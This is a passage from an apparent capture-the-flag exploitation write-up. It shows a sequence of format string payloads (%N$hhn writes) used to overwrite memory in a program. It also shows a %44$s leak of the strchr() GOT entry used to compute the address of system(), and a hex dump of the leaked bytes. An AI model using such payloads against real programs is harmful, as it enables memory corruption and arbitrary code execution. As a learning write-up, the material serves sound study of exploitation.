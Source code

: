 ```
a%53$hhn
%152x%17$hhn
%24x%53$hhn
%153x%17$hhn
%131x%53$hhn
%154x%17$hhn
%135x%53$hhn
%155x%17$hhn
aa%53$hhn
%156x%17$hhn
%24x%53$hhn
%157x%17$hhn
%131x%53$hhn
%158x%17$hhn
%135x%53$hhn

$ 
```

Then we copy that text into the other terminal and then hit return a couple of times to make sure all of our instructions were executed by ```printf()```. Then we leak the value of the GOT entry for ```strchr()``` to calculate the address of ```system()```.


Terminal 1:
```
,%44$s,
               _
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
             //,`li▒[h▒p▒a▒▒▒h▒,                            /
            //                                   /
           //                                   /
          //                                   /
         //                                   /
        //                                   /
       //___________________________________/
      //
     //
    //
   //
  //
 //

```

Those characters aren't readable so we cat the file we've been tee'ing to and pipe it to xxd and tee it to another file.

Terminal 2:

```
$ cat out.txt | xxd | tee hex.txt
...
000c7b0: 2020 2020 2020 2020 2020 2020 202f 2f2c               //,
000c7c0: 606c 69f7 905b 68f7 70b9 61f7 d0eb 68f7  `li..[h.p.a...h.
000c7d0: 2c20 2020 2020 2020 2020 2020 2020 2020  ,
...
```
